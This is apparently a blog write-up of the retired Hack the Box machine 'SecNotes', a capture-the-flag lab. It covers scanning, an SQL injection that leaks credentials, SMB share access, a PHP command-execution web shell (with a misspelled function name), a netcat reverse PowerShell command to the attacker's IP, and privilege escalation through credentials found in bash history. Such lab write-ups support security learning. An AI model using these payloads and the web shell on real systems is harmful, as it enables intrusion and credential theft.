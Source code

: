 +++
author = "Nick"
categories = ["CTF", "NetSec"]
date = 2019-01-22T17:03:09Z
description = ""
draft = false
thumbnail = "/images/2019/01/info.PNG"
slug = "hack-the-box-secnotes"
summary = "Hack the Box - SecNotes machine. Lets get root!"
tags = ["CTF", "NetSec"]
title = "Hack the Box - SecNotes"
url = "/hack-the-box-secnotes"

+++


Well, this will be my 11th write up for HtB, however, you aren't allowed to post a write up until a box has been retired. So I guess this is will actually be my first published write up on this site!

For those that are unfamiliar with what Hack the Box is, it's a simple capture the flag in digital space. In this case the flag is Administrative shell and credentials for users on the target machine. Let's dig in!

As always, we start by gathering info on our target with a basic nmap scan:

```bash
nmap -sC -sV -oA 10.10.10.97

That comes back with some basic things, we see port 80 and 445. We see that it's a Windows 10 machine running Enterprise build 17134. My guy reaction here is MS17-010 but that build might be too new to exploit. Lets check anyway.

```bash
ost script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2018-11-22T06:21:10-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-11-22 09:21:12
|_  start_date: N/A

There are a few ways to check this exploit but this time, we'll just use Metasploit since it has a MS17-010 scanner module. If you aren't familiar with where it is in Metasploit you can always use the search command to find it:

```bash
search ms17_010

![](/images/2019/01/ms17_check.PNG)

Now we load up the module and give it our target data:

```bash
use auxiliary/scanner/smb/smb_ms17_010

![](/images/2019/01/ms17_check2.PNG" caption="MS17-010 scanner hasn't found anything.)

It would appear the machine is not vulnerable. No biggy, we can run ms-17-010 against is if we think this data is false, but it usually isn't. Lets keep moving, we also saw port 80 open, lets browse to it and see what it is.

![](/images/2019/01/site.PNG" caption="Some type of login it seems)

Well, it seems to direct us to a login page of some type. So we try our usual, admin / admin. Admin with 1 space and amin with 2 spaces at the end. Sometimes this works due to lazy comparisons. Nothing, well, lets try and sign up for an account. We can sign up and get logged in. It's some type of note system.

![](/images/2019/01/pafge.PNG)

Lets create a note with some html.

![](/images/2019/01/note1.PNG)

Sure enough, we see the form isn't filtering any html:

![](/images/2019/01/note2.PNG" caption="potential xss?)

Well, that could be fun, lets check out the other pages and see what can be done. When we look at the change password page source, we notice there is not any CSRF tokens or protection of any type. Lets launch Burpe Suite and see what is being posted when we fill this field out.

![](/images/2019/01/burp1.PNG" caption="Well isn't that fun...)

So we can see that it's just passing in a password change via post. If we were to forward this page link to the site admin and they read it, we could passively change the password for the admin user. The question is how do we get the admin to read the link? (more on that later).

Well that could be our best way in, before we commit to that method, lets check for any php injections. Lets go back and create a user name of Love'"!@#$%^&*()[];<>. This should let us see if anything can be broken.

![](/images/2019/01/500.PNG" caption="What do we have here?)

Well, it looks like we can break this somehow. In this case I just removed the last set of special characters from our name until I found what seemed to be broken. So I used Love'"– - nothing, Love'!– - nothing, But then I got to Love';– - and that seemed to be the ticket. So do we craft an SQL injection statement? It was at this part I began to overthink the execution. So I just went back to basics with a injection method. ' OR '1'='1. Sure enough that gave be back some data in Burpe yet a error 500 on the web interface... odd. We had gotten back three notes, a recipe, some years and credentials.

![](/images/2019/01/html_cred.PNG" caption="Credentials for a user named tyler, awesome!)

So it seems our secure notes app wasn't so secure after all. It looks like they're going to spin up a new site, awesome. The notation above shows it's an SMB share something our nmap also gave us. Lets enumerate our shares on this machine and see what we get. We can enumerate SMB shares with a tool called SMBmap.

![](/images/2019/01/smbenum.PNG" caption="We give smbmap a username and password.)

Looks like we have the normal shares and our newly found new-site share. Lets connect using smbclient.

![](/images/2019/01/smb_dir_muchbetter.PNG" caption="We give smbclient a target and a user, we are then prompted for a password.&nbsp;)

When we list the directories we see the standard IIS html and png. We can't seem to path up either. We have write access, lets try to put a file on the directory. Sure enough we can upload a file to the share. So how to we get to that site? It wasn't found at /new-site or any other iteration of that. It's not uncommon for devs to create test site locally on other ports. Lets try to scan all the ports and see what comes back.

![](/images/2019/01/nmap2.PNG)

Looks like we have something running on 8808, lets browse to it. Looks like the basic IIS start page, awesome. Lets create a basic html file and upload it and see if we can access that.

![](/images/2019/01/put.PNG)

![](/images/2019/01/test1.PNG)

Looks like it worked! Now, based on our previous nmap scans, we know that the site is running PHP. A common method of attack here is to create a PHP script to upload a vector of attack and have the IIS system run that file. So this is exactly what we'll do. The first time I ran through this attack, I was using a reverse Meterpeter payload but that seemed to keep dropping connection after ~30 seconds or so. Since that wasn't working out I decided to try the old standby of Netcat.

The first thing we need to do is download Netcat. Then we'll upload it to our new-site share. Once we've done that we'll write a quick and dirty php file to execute the commands we issue it.

![](/images/2019/01/nc64.PNG" caption="We connect via smbclient again and issue a put command.)

Now that our file is there, lets write a quick PHP one liner. PHP has a function called [passthru](https://secure.php.net/manual/en/function.passthru.php)(). This allow us to execute a command on the system. At first I wrote this with the exec() function in PHP but it didn't seem to like the arguments I was feeding it, probably has something to do with the lack of PHP knowledge I have. We create a new file called loveshell.php. In this file we will write the following:

```php
<?php passthrue($_REQUEST["run"]);?>

When we call this webpage, we can then feed it commands like this:

http://10.10.10.97/new-site/loveshell.php?run=dir

In the case above, the server will execute the 'dir' command and give us the results on the page.

![](/images/2019/01/result.PNG)

So lets upload our file to the server using smbclient again. Now before we execute anything, we need to start our Netcat listener on our machine.

![](/images/2019/01/nclisten.PNG" caption="We use the -n for ip only, the -v for verbose, the -l for listen for inbound only and the -p for our port)

Now that we're listening, lets feed our php shell a netcat command. We want netcat to start a powershell session and forward it to us. To do that we issue the following:

```bash
nc64.exe 10.10.13.37 9909 -e powershell

This create a powershell session and forwards it to our machine on port 9909. Previously I had created the session with CMD prompt but that was lacking in features. So lets drop this into our URL bar and see what we get!

![](/images/2019/01/urlsend.PNG)

![](/images/2019/01/reverse_powershell.PNG)

Once we issue the command we see our Netcat listener light up and become active! We now have a Powershell prompt. Lets go get our user credentials! We path to the desktop and sure enough, they are here. A quick more user.txt gives us what we are looking for.

![](/images/2019/01/user.PNG)

Now how do we escalate our privileges? There are a few ways of doing this but I feel like I took that path that was blatantly right in front of me. As we traversed the directories to get to Tyler's desktop we noticed a few things. The first being a directory for Distros listed under the C drive. When we path down it, we notice that there is a Ubuntu directory with Ubuntu.exe. So whats interesting about this is that this file is meant to run Ubuntu within Windows. Very much like the windows bash sub-features. Along side this on Tyler's Desktop there was a shortcut named bash.lnk. When we look at the content of that shortcut we see it's pointing to a bash.exe in System32.

![](/images/2019/01/bash.PNG" caption="bash.exe in System32? What could this be?)

Since that shortcut is linked to the System32, we should be able to call it from our powershell command prompt.

![](/images/2019/01/bash1.PNG)

Sure enough, we can. So who are we in this bash shell? Turns out we're root. Maybe we can path to Administrator now and get credentials!

![](/images/2019/01/whoami.PNG)

So we path to /mnt/c/users/Administrator and see what we can see.

![](/images/2019/01/admin1.PNG" caption="Denied!)

Nothing, we still don't seem to actually have root privileges. So lets go back to our starting point and see whats there. When we list the content of our home directory we see a directory called 'filesystem'. More importantly we see .bash_history, usually this has some breadcrumbs we can follow.

![](/images/2019/01/listing.PNG)

We list the contents of 'filesystem' but there seems to be nothing there. Lets check the contents of the .bash_history. When we do we see some admin credentials. Awesome, lets use those credentials to connect back to the system via SMB!

![](/images/2019/01/cat_bash.PNG" caption="The % after the administrator is the delimiter for the smbclient tool.)

Once again we open our smbclient and connect as administrator using the above credentials. Once we're in, we simply path to the Desktop and view our root.txt.

![](/images/2019/01/root.PNG)

There we have it. Another box down. It should be noted there are other ways to own this box. The above is just the path that I followed as I'm much more familiar with infrastructure access and pathways vs web access.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

